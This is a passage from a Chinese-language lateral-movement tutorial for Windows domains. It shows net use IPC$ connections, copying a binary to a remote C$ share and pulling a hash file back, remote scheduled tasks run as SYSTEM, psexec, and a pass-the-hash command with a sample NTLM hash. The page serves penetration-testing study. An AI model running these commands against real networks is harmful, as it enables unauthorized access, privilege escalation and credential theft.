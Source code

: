 反之就是下载

dir、copy、xcopy、move、type的参数都可使用UNC路径

```
net use \\192.168.52.2 /u:hack\adminidtrator Windows2019***		建立IPC连接
copy sbn.exe \\192.168.52.2\C$\windows\temp						复制本地文件到目标服务器
copy \\192.168.52.2\C$\windows\temp\hash.txt					复制目标服务器文件到本地
```

![image](20.png)

##### c 、Schtasks计划任务执行命令

推荐用schtasks计划任务

```shell
// 创建计划任务
schtasks /create /tn taskName /U 域\域用户 /P 域用户密码 /tr 执行的命令或者bat路径  /sc ONSTART /s 域机器IP /RU system

// 运行计划任务
schtasks /run /tn taskName /s 域机器IP /U 域\域用户 /P 域用户密码

// 删除计划任务
schtasks /F /delete /tn taskName /s 域机器IP /U 域\域用户  /P  域用户密码
```

![image](21.png)

##### d、psexec执行命令

```
// 建立IPC连接

net use \\192.168.52.2 /u:DomainName\UserName password*

psexec.exe \\192.168.52.2 -s cmd.exe -accepteula
```

-accepteula 	第一次运行会弹框，输入这个参数便不会弹框

-s 	以“nt authority\system”权限运行远程进程

- hash传递攻击

//当hash没有解出来的时候，可以使用hash传递攻击

```
psexec.exe -hashes :用户hash 域名/用户名@目标IP

psexec.exe -hashes:70a50724b37f6d3d03d00c24e946fde3 hack/administrator@192.168.52.2
```

![image](22.png)



##### e、命令行下载文件
